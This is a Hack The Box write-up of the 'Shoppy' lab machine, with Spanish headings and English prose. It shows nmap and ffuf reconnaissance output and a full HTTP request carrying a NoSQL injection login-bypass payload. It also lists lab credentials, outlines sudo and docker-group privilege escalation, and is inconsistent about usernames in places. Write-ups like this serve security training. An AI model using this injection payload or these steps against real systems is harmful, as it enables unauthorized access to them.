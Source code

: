 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

The first discovered open port is `22/tcp` this is the default SSH port. The second open port is `80/tcp` this is the default HTTP port. The webserver is running on Nginx 1.23.1. According to the header, the webserver is listening on the hostname `shoppy.htb`. To perform further reconnaissance, we add the hostname `shoppy.htb` to our `/etc/hosts` file.



## Enumeracion

### Webserver

We start with the enumeration of the website. We visit the website through the URL `http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Nice! We have found a login page on `http://shoppy.htb/login`. To login, we need valid credentials. We do not currently have those credentials. Also, the location `http://shoppy.htb/exports` is interessting, but we cannot extract any information from this URL right now, maybe later on in this machine.



## Acceder

### Access as admin webportal

If we are using a single quote (`'`) in the username field, we receive a `504 Gateway Time-out`. We have our first error message. We need to perform some more enumeration. This part of the machine, was the most confusing part of this box. It took me some time to find out how to get a foothold on this machine.

The error message shows the URL `http://shoppy.htb/login?error=WrongCredentials`

Let’s try various payloads in the login form. After a long time of trying, we are able to find the right payload to bypass the login mechanism through BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=toto

```

After logging in, we are redirected to `http://shoppy.htb/admin`

From this page, we can search for users. We can search for the user `admin`, and received the password for this user account. We’ve tried to crack this password, but it seems it is uncrackable. After filling in the payload `'||'1==1//` in the search bar (payload always trye), it shows all existing user accounts in the databse.

\#

Let’s try to crack the password of the useraccount `john`.

We have found the password `remembermethisway`. With this password I’ve tried to login through SSH with this password, but no luck. After enumerating around, we found an extra sub-domain `http://mattermost.shoppy.htb`, using `ffuf`.

We cannot now login with the user `josh` with the cracked password.

After looking around, we find the credentials for the user account `jaeger` with the password `Sh0ppyBest@pp!`.

## SSH access as jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

With this user account, we can access the machine through SSH and grab the user flag.

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

### Move from jaeger to deploy

This user account has the permission to run `/home/deploy/password-manager` on behalf of the user account `deploy`.

After executing this program, it’s asking for a master password. As we are able to run the program, we can also try to read the program.

It seems that the password is: `Sample`.

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Yes! We have now the credentials for the user account `deploy`. We can switch to this user account and run `linpeas.sh`.

## Exploit docker <a href="#exploit-docker" id="exploit-docker"></a>

The user account `deploy` is in the `docker` group. Through [GTFObins](https://gtfobins.github.io/gtfobins/docker/) we can find the path to privilege escalation.

Thanks for reading this write-up! Did you enjoy reading this write-up? Or learned something from it? Please consider spending a respect point: [https://app.hackthebox.com/profile/224856.com/profile/224856](https://app.hackthebox.com/profile/224856.com/profile/224856). Thanks!
